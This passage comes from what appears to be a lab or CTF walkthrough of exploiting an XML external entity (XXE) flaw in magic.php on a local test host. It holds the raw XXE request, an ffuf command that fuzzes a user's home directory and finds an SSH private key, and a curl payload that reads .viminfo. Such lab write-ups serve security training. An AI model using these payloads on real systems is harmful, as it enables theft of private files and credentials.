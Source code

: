 ## Exploitation

The file is successfully included and we can identify the username of the local user i.e. David. We can use this name to enumerate common files present in this user's home directory. We will perform this action with ffuf but it can also be done with Zaproxy. 
We will first copy the POST request into a local file and change "file:///etc/passwd" to "file:///home/david/FUZZ".
```bash
┌──(pentester㉿kali)-[~/System/Scans/Web]
└─$cat raw_req.txt 
POST http://10.0.2.14/magic.php HTTP/1.1
host: 10.0.2.14
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Referer: http://10.0.2.14/
Content-Type: text/plain;charset=UTF-8
content-length: 185
Origin: http://10.0.2.14
Connection: keep-alive

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ 
   <!ENTITY test1 SYSTEM "file:///home/david/FUZZ">
]>
<details>
    <email>&test1;</email>
    <password>test1</password>
</details>
```

Now, we will start ffuf with a wordlist containing common Linux files that can be found in home directories.
```bash
┌──(pentester㉿kali)-[~/System/Scans/Web]
└─$ffuf -ic -c -request-proto http -request raw_req.txt -w /usr/share/seclists/Discovery/Web-Content/quickhits.txt -fs 85

<SNIP>
________________________________________________

.profile                [Status: 200, Size: 892, Words: 138, Lines: 28, Duration: 45ms]
.ssh/id_rsa.pub         [Status: 200, Size: 653, Words: 13, Lines: 2, Duration: 47ms]
.viminfo                [Status: 200, Size: 786, Words: 90, Lines: 39, Duration: 43ms]
.ssh/id_rsa             [Status: 200, Size: 2687, Words: 17, Lines: 39, Duration: 272ms]
:: Progress: [2565/2565] :: Job [1/1] :: 784 req/sec :: Duration: [0:00:03] :: Errors: 0 ::
```
From the fuzzing result, we see two interesting files that are .ssh/id_rsa which contains the user's private SSH key, and viminfo which contain's the user vim history. The id_rsa file will not be of great help to us except if the web runs as the David user which is not probably the case. Let's look at the viminfo file to see if the user created some important file with the vim text editor.
```bash
┌──(pentester㉿kali)-[~/System/Scans/Web]
└─$curl  http://10.0.2.14/magic.php -X POST -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE test [<!ENTITY test1 SYSTEM "file:///home/david/.viminfo">]><details><email>&test1;</email><password>test1</password></details>'
<p align='center'> <font color=white size='5pt'> # This viminfo file was generated by Vim 8.2.
# You may edit it if you're careful!

# Viminfo version
|1,4

<SNIP>
# Password file Created:
```